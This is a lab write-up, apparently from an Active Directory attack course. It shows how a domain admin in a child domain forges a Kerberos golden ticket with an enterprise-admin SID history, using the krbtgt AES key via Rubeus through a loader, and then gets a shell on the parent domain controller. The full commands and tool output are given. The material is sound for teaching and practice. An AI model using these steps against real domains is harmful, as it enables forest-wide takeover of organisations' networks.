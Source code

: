 # Learning Objective 19 (Privilege Escalation | Across Domain Trusts - `krbtgt` Key Abuse)

## Tasks

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate privileges to EA by forging a golden ticket using `dollarcorp`'s `krbtgt` TGT encryption key**


**Using DA privileges on `dollarcorp.moneycorp.local`, extract the trust key for `moneycorp.local` and escalate to EA by forging a silver ticket**

---

## Attack Path Steps

- **Forge a Golden Ticket with EA SID History using the `krbtgt` TGT Encryption Key from the Child DC for Privilege Escalation**
- **Leverage the Forged Ticket to Gain EA Access on the Parent DC**

---

## Solution

1. **Using DA access to `dollarcorp.moneycorp.local`, escalate privileges to EA by forging a golden ticket using `dollarcorp`'s `krbtgt` TGT encryption key**

- **Forge a Golden Ticket with EA SID History using the `krbtgt` TGT Encryption Key from the Child DC for Privilege Escalation**

We already have the `krbtgt` hash from `dcorp-dc` (see *Learning Objective 08*).

Let's create a **golden ticket** (not an inter-realm TGT) and inject it. Due to the trust, the parent domain will trust the TGT.

![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /user:Administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt`:
```
[SNIP]

[*] Action: Build TGT📌

[*] Building PAC

[*] Domain         : DOLLARCORP.MONEYCORP.LOCAL (dcorp)
[*] SID            : S-1-5-21-719815819-3726368948-3917688648📌
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-335606122-960912869-3279953914-519📌
[*] ServiceKey     : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt📌
[*] Target         : dollarcorp.moneycorp.local

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'Administrator🎭@dollarcorp.moneycorp.local🏛️'

[*] AuthTime       : 2/17/2025 5:53:23 AM
[*] StartTime      : 2/17/2025 5:53:23 AM
[*] EndTime        : 2/17/2025 3:53:23 PM
[*] RenewTill      : 2/24/2025 5:53:23 AM

[*] base64(ticket.kirbi):

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x38c010

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: krbtgt📌/dollarcorp.moneycorp.local @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 2/17/2025 5:53:23 (local)
        End Time:   2/17/2025 15:53:23 (local)
        Renew Time: 2/24/2025 5:53:23 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

- **Leverage the Forged Ticket to Gain EA Access on the Parent DC**

We can now access `mcorp-dc`!

`winrs -r:mcorp-dc.moneycorp.local cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\Administrator.dcorp>
```
🚀

![mcorp-dc | administrator](https://custom-icon-badges.demolab.com/badge/mcorp--dc-administrator-64b5f6?logo=windows11&logoColor=white)

`set username`:
```
USERNAME=Administrator👑
```

`set computername`:
```
COMPUTERNAME=MCORP-DC🖥️
```
🚩

---
---
